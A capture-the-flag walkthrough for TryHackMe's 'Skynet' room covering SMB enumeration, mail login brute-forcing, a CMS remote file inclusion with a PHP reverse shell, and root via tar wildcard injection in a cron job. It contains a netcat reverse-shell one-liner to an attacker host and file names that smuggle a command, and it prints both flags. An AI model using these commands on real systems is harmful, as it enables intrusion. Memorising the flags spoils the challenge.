

# Skynet

> Platform: TryHackMe
>
> Created by: tryhackme
>
> Difficulty: Easy

## Reconnaisance, Scanning & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA skynetscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:


Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```


From all the found directories, we are able to get to the **"/squirrelmail"** page, but it requires the credentials to login


Then, from our Nmap scans, we found out that there are SMB server scanned. Try to enumerate more the SMB server using Nmap:
1. Check the security mode of the SMB server:
```bash
$ nmap -p445 --script smb-security-mode <TARGET-IP>
```


2. Enumerate the users of the SMB server:
```bash
$ nmap -p445 --script smb-enum-users <TARGET-IP>
```


We found out that the user in the SMB server is **"milesdyson"**. **This username may be useful later**.

3. Enumerate the shares in the SMB server:
```bash
$ nmap -p445 --script smb-enum-shares <TARGET-IP>
```


From here, we found out that account used as **"guest"** able to acccess several shares in the SMB server.

Now, let's try to enumerate more using the guest with smbclient.
```bash
$ smbclient -L //<TARGET-IP>/ -U guest
```


Same results as what we get from the previous Nmap SMB Shares Enumeration. Let's access the sharename named as anonymous. Retrieve the files:
```bash
$ smbclient //<TARGET-IP>/anonymous -U guest

smb: \> get attention.txt

smb: \> cd logs

smb: \logs\> get log1.txt
```


Read the retrieved files:
```bash
$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

$ cat log1.txt
```


**"Log1.txt"** files looks like the password we can use to login. Let's try to login to the squirrel mail using **"milesdyson" as the username** and **use the "log1.txt" as the password dictionary**.

## Exploitation

I used **Burp Suite** for this as I find it easier for me. Set the **login_username as milesdyson** and for **secretkey**, **load the log1.txt file as the payload**. Then click **Start attack**.


Most of the attack results in status code of 200. However, only one payload able to bring status code of 302, so I think it is the correct password. Use the password to login to the squirrel mail


Then, in the email, we found out that it includes the smb password for milesdyson.


Now we can use it to login to SMB server and access milesdyson shares as milesdyson.
```bash
$ smbclient //<TARGET-IP>/milesdyson -U milesdyson

smb: \> ls
something       N
something       N
notes           D
something       N
something       N

smb: \> cd notes

smb: \notes\> ls
x.xx something
x.xx something
important.txt
x.xx something
x.xx something

smb: \notes\> get important.txt
```


Read the retrieved file:
```bash
$ cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Let's try to go to the hidden directory.


Looks like we need to try enumerate more the directories.
```bash
$ gobuster dir -u http://<TARGET-IP>/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt
```



When going to the **/administrator** page, it looks like need a new credentials to login. However, from the name of the CMS, try to find any available exploit.


I found one available POC that we can try from the [exploit-db](https://www.exploit-db.com/exploits/25971).

From the POC, it tells us that it is a PHP Code Injection where attackers able to do both include local and remote file. Let's try first from the vulnerable link, **"/alerts/alertConfigField.php"**.


Looks like it is working! Now, let's prepare our reverse shell scrits to be included to the CMS.

For a file to be read, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```


Now, let's host a web server in our attacker machine:
```bash
$ python3 -m http.server 80
```

Make sure run netcat as listener:
```bash
$ nc -lvnp 4444
```

Try to read the file in CMS.


Nice, now find the **"user.txt"**.

```bash
$ pwd
/

$ ls home
milesdyson

$ cat /home/milesdyson/user.txt
```


## 🏳️Flag: user.txt
>**7ce5c2109a40f958099283600a9ae807**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, try to check the sudo permission first using the command:
```bash
$ sudo -l
sudo: no tty present and no askpass program specified
```

Looks like we cannot use sudo -l for now. Let's try to check for weird SUID. I've tried to read some online tutorials to find the files with weird SUID permission which can be found [here](https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html).:
```bash
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```


Also, I think there is nothing here we can try to exploit.

Try to check on the **/etc/crontab**, as maybe the challenge themes does give hints on that.
```bash
$ cat /etc/crontab
```


Yeah! It does have some in the cron job here. Now, try to read the content of the backup.sh file

```bash
$ cat /home/milesdyson/backups/backup.sh
```


Looks like it is a script which will archive all the contents inside the directory **/var/www/html** and stores it in **/home/milesdyson/backups** and named as **backup.tgz**. When reading the file carefully, we can try to create a reverse shell script here where for every minute, it will be archived then able to run as root privilege. For better understanding, you can read [here](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com).
```bash
$ cd /var/www/html

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER-IP> 1234 >/tmp/f" > shell.sh
```

Make sure to run another netcat:
```bash
$ nc -lvnp 1234
```

Now, proceed with the exploit to get root.
```
$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

$ touch "/var/www/html/--checkpoint=1"
```

In the another netcat, get the root flag:
```
# cat /root/root.txt
```


## 🏳️Flag: root.txt
>**3f0372db24753accc7179a282cd6a949**